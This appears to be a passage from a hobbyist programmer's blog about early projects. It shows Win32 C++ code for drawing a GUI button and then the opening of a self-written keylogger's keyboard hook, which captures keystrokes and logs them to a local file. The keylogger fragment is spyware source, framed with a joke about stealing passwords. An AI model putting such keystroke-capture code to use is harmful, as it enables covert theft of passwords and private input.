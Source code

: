 ```c++
//Draw the Button.
Rectangle (DCMem, 0, 0, cx, cy);
GetTextExtentPoint32 (DCMem, button_text.c_str (), static_cast<int>(button_text.length ()), &tsize);
TextOut (DCMem, (cx - tsize.cx) / 2, (cy - tsize.cy) / 2, button_text.c_str (), static_cast<int>(button_text.length ()));

//Off-screen DC.
BitBlt (DC, cRect.left, cRect.top, cRect.right - cRect.left, cRect.bottom - cRect.top, DCMem, 0, 0, SRCCOPY);

SelectObject (DCMem, orig_brush);
SelectObject (DCMem, orig_pen);
SelectObject (DCMem, orig_font);
SelectObject (DCMem, BMOld);
DeleteObject (BMMem);
DeleteDC (DCMem);
DeleteObject (brush);
DeleteObject (pen);
DeleteObject (font);
ReleaseDC (this->button_wnd, DC);
```

One of these had to be defined for every distinct component in the applications above, along with all their message handlers, and so on. Annoying, right?

### Keylogger

> "Motivation is the key to success."\
> \- Someone not talking about stealing passwords, probably.

Knowing that moving forward with GUIs was a very tedious option, I looked to the other cool things I could do with programming. Viruses are pretty cool too. Here's my first attempt of a keylogger.

<video src="emilia.md-assets/keylogger.webm" autoplay loop muted></video>
*Demonstration of the keylogger, which saves its log to a local file `hi.txt`.*

I've attached a snippet of the beginning of the low-level keyboard hook function code below.

```c++
__declspec(dllexport) LRESULT CALLBACK handlekeys(int code, WPARAM wp, LPARAM lp)
{
    if (code == HC_ACTION && (wp == WM_SYSKEYDOWN || wp == WM_KEYDOWN)) {
        static bool capslock = false;
        static bool shift = false;
        char tmp[0xFF] = {0};
        std::string str;
        DWORD msg = 1;
        KBDLLHOOKSTRUCT st_hook = *((KBDLLHOOKSTRUCT*)lp);
        bool printable;

        /*
         * Get key name as string
         */
        msg += (st_hook.scanCode << 16);
        msg += (st_hook.flags << 24);
        GetKeyNameText(msg, tmp, 0xFF);
        str = std::string(tmp);
```
